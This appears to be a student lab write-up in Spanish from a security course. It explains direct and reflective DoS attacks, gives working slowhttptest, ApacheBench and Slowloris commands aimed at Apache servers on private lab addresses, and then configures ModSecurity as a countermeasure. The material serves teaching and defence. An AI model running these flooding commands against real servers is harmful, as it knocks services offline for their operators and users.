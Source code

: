 <p align="right"><a href="#top">back to top</a></p>

## APARTADO M
1. ¿Cómo podría hacer un DoS de tipo direct attack contra un equipo de la red de prácticas?
> Un ataque directo es cuando un atacante envía una gran cantidad de tráfico directamente a tu servidor, sobrecargando su capacidad de respuesta.
2. ¿Y mediante un DoS de tipo reflective flooding attack?
> Un ataque de reflexión se basa en hacer que un tercero envíe tráfico masivo a tu servidor mediante solicitudes NTP con direcciones IP falsas.

<p align="right"><a href="#top">back to top</a></p>

## APARTADO N
Ataque un servidor Apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS.
> `apt install apache2`
> `curl https://www.alvarofreire.es/ > /var/www/html/index.html`

#### 1. Slowhttptest
> `slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://10.11.49.54 -x 24 -p 3`

#### 2. Apache benchmarking
> `ab -n 10000 -c 10000 http://10.11.49.55/`

#### 3. Slowloris Python
> `git clone https://github.com/gkbrk/slowloris.git`
> `cd slowloris`
> `python3 slowloris.py 10.11.49.55 -s 500`

#### 4. Slowloris Perl
> `perl slowloris.pl -dns 10.11.49.55`

## APARTADO O
Instale y configure ModSecurity. Vuelva a proceder con el ataque del apartado anterior y observe los resultados.
> `apt install libapache2-mod-security2`
> `a2enmod headers`
> `a2enmod security2`
> `systemctl restart apache2`
> `nano /etc/modsecurity/modsecurity.conf`
```bash
SecRuleEngine On
SecConnEngine On 
SecConnReadStateLimit 10
SecConnWriteStateLimit 10
```
> [!NOTE]
> Para ver la lista de módulos activos usar `apachectl -M`.

<p align="right"><a href="#top">back to top</a></p>
